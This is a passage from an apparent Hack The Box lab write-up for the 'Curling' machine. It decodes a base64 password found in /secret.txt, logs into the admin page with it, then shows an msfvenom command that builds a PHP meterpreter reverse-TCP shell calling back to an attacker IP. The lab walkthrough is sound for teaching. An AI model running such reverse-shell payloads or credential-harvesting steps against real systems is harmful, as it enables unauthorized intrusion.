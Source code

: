 Next had a look at the source code and noticed the following comment 

![](/assets/images/htb-writeup-curling/secret.png)

checking `/secret.txt` reveals a base64 string which i decoded to reveal `Curling2018!`

![](/assets/images/htb-writeup-curling/decode.png)

**Username:** Floris
**Password:** Curling2018!

Now can login to the admin page using the creds above - [http://curling.htb/administrator/index.php](http://curling.htb/administrator/index.php)

![](/assets/images/htb-writeup-curling/login.png)


# Getting a Shell 

Time to get a shell 

msfvenom was used to generate a simple php shell 

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.210 LPORT=4446 > php-meterpreter-staged-reverse-tcp-4666.php
```

